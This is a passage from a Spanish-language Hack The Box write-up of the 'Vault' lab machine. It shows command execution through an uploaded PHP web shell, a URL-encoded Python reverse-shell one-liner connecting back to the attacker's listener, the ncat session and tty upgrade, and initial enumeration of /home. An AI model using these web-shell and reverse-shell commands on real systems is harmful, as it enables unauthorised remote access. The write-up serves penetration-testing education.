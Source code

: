 Ahora que hemos podido subir nuestra shell, veamos si podemos ejecutar comandos sobre ella:

``` text
xbytemx@laptop:~/htb/vault$ http "http://10.10.10.109/sparklays/design/uploads/dgdfgdfgdfgd.php5?cmd=uname"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Length: 6
Content-Type: text/html; charset=UTF-8
Date: Sun, 17 Mar 2019 07:41:31 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)

Linux

```

Excelente, ahora que podemos ejecutar comandos sobre el servidor, podemos llamar a una reverse shell para trabajar más a gusto:

# Get a reverse shell as www-data

Para ejecutar mi reverse shell, use `urlencode` para no morir con problemas de encoding durante la ejecución. También provee previamente si podía ejecutar python, con `python --version`. Con esta validación y soporte de encoding, ejecutamos el siguiente comando:

``` text
xbytemx@laptop:~/htb/vault$ http "http://10.10.10.109/sparklays/design/uploads/dgdfgdfgdfgd.php5?cmd="$(urlencode "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.244\",3001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")
```

En mi maquina, esperando por la conexión y posteriormente haciendo el upgrade de mi tty:

``` text
xbytemx@laptop:~/htb/vault$ ncat -vlnp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.109.
Ncat: Connection from 10.10.10.109:41708.
/bin/sh: 0: can't access tty; job control turned off
$

$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/sparklays/design/uploads$
```

Ahora que estamos dentro, busquemos en la carpeta home por mas información sobre la maquina:

``` text
www-data@ubuntu:/var/www/html/sparklays/design/uploads$ cd /home
cd /home
www-data@ubuntu:/home$ ls -lah
ls -lah
total 16K
drwxr-xr-x  4 root root 4.0K Jul 17  2018 .
drwxr-xr-x 24 root root 4.0K Jul 17  2018 ..
drwxr-xr-x 19 alex alex 4.0K Nov  4 07:18 alex
drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 dave
```
